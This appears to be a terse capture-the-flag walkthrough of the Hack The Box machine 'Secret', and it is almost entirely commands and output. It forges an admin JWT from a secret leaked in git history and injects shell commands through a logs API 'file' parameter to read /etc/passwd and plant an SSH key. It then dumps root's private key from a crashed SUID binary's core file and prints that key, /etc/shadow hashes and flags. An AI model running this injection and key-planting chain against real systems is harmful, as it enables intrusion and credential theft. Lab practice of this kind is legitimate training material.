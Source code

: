IP address - 10.10.11.120

*private.js* (in source code)
 ```
   if (name == 'theadmin'){
        res.json({
            creds:{
                role:"admin", 
                username:"theadmin",
                desc : "welcome back admin,"
```

`curl -i -X POST \
  -H 'Content-Type: application/json' \
  -d '{"name":"drtuser", "email":"drt@dasith.works", "password":"sexyasspassword"}' \
  http://10.10.11.120/api/user/register`
  ```
  HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 31 Dec 2021 01:40:57 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 18
Connection: keep-alive
X-Powered-By: Express
ETag: W/"12-k5hukY9+41w+i14cXsKJcLytzTY"

{"user":"drtuser"}                                                                                                   
```
`curl -i -X POST \
  -H 'Content-Type: application/json' \
  -d '{"email":"drt@dasith.works", "password":"sexyasspassword"}' \
  http://10.10.11.120/api/user/login`
  ```
  HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 31 Dec 2021 01:42:45 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 208
Connection: keep-alive
X-Powered-By: Express
auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWNlNWZhOTkzMGQ1NjA0NWU1NWIyNDYiLCJuYW1lIjoiZHJ0dXNlciIsImVtYWlsIjoiZHJ0QGRhc2l0aC53b3JrcyIsImlhdCI6MTY0MDkxNDk2NX0.8R7V-tTsaDUhIz6wP4VbQQLOXYAZHavsLJicWfO0tWc
ETag: W/"d0-VS7eSXxnVHnPG+Iy8r/RnIYJbPQ"

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWNlNWZhOTkzMGQ1NjA0NWU1NWIyNDYiLCJuYW1lIjoiZHJ0dXNlciIsImVtYWlsIjoiZHJ0QGRhc2l0aC53b3JrcyIsImlhdCI6MTY0MDkxNDk2NX0.8R7V-tTsaDUhIz6wP4VbQQLOXYAZHavsLJicWfO0tWc                          
```
`git log`
```
commit e297a2797a5f62b6011654cf6fb6ccb6712d2d5b (HEAD -> master)
Author: dasithsv <dasithsv@gmail.com>
Date:   Thu Sep 9 00:03:27 2021 +0530

    now we can view logs from server 😃

commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons

commit de0a46b5107a2f4d26e348303e76d85ae4870934
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:29:19 2021 +0530

    added /downloads

commit 4e5547295cfe456d8ca7005cb823e1101fd1f9cb
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:27:35 2021 +0530
```
`git diff HEAD~2`
```
diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
diff --git a/routes/private.js b/routes/private.js
index 1347e8c..cf6bf21 100644
--- a/routes/private.js
+++ b/routes/private.js
@@ -11,10 +11,10 @@ router.get('/priv', verifytoken, (req, res) => {
     
     if (name == 'theadmin'){
         res.json({
-            role:{
-
-                role:"you are admin", 
-                desc : "{flag will be here}"
```
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWNlNWZhOTkzMGQ1NjA0NWU1NWIyNDYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2NDA5MTQ5NjV9.RCpH5FVRB-4XcV9J20nEa2JXxyyxoV3t9iN-h53kZjc`

curl -i \
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \
  'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
```
"ab3e953 Added the codes
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
dasith:x:1000:1000:dasith:/home/dasith:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mongodb:x:113:117::/var/lib/mongodb:/usr/sbin/nologin
```

`ssh-keygen -t rsa -b 4096 -C 'drt@htb' -f secret.htb -P ''`
`mkdir -p /home/dasith/.ssh`
`export PUBLIC_KEY=$(cat secret.htb.pub)`
`echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys`

`curl \
  -i \                
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \ 
  -G \                                               
  --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" \                         
  'http://10.10.11.120/api/logs' ` - storing our public ssh key into the system machine, using the JSON Web token 
  
  `ssh -i secret.htb dasith@10.10.11.120` - Gaining a shell as dasith
  *User.txt* - `f85e28b2d5a9172e21c072704f9f7c37`
  ##### Low level user (dasith)
  
  *Finding SUID binaries on system* - `find / -perm -u=s -type f 2>/dev/null`
  Found `/opt/count` - interesting
  **Linux core dumping**
  `apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report`
  `strings /tmp/crash-report/CoreDump`
  root.txt - `e3bbd093cbc7b5f4764c7be3f96bf595`
  *Gaining a shell*
  ```
  ./count
  (type /root/.ssh/id_rsa) - then ctrl-z the process to foreground it\
  ps (find the process running)
  kill -BUS 1839
  apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash1
  strings /tmp/crash1/Coredump
  ```
  ```
  -----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
(Pasting the private ssh key into *secret.root on attacking box*)
```
chmod 600 secret.root

ssh -i secret.root root@10.10.11.120

```
(Shell access)
`cat /etc/shadow`
```
root:$6$/0f5J.S8.u.dA78h$xSyDRhh5Zf18Ha9XNVo5dvPhxnI0i7D/uD8T5FcYgN1FYMQbvkZakMgjgm3bhtS6hgKWBcD/QJqPgQR6cycFj.:18873:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18852:0:99999:7:::
sshd:*:18852:0:99999:7:::
systemd-coredump:!!:18852::::::
dasith:$6$RM7seX/Mzkds2S1x$.vkOBt4kRfs/6JRApNqvzZ1zM6W1FK8kNKyoBOVSuZbrdlOw.vPj2D7VC0y0sz2Eg2z5rj.GdK2ApMBFynjmR/:18873:0:99999:7:::
lxd:!:18852::::::
mongodb:!:18852:0:99999:7:::
```
